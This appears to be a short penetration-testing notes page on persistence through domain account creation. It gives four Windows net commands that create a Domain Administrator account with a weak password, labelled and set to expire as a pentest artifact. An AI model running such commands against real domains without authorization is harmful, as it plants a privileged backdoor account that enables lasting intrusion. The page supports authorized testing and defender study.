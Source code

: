 ```yaml
---
description: >-
  Creation of a domain account is one of the easiest ways to maintain access to
  victim systems.
---
```


# Create Account: Domain Account

After obtaining Domain Administrator access in an engagement I like to create a Domain Administrator account to perform all other post exploitation activities from.&#x20;

Steps from a domain controller to create a domain administrator account:

1. `net user parzival password /add /domain`
2. `net group "Domain Admins" parzival /add /domain`
3. `net user parzival /comment:"Account created for authorized pentest. Created on XX/XX/XXXX"`
4. `net user parzival /expires:XX/XX/XXXX`

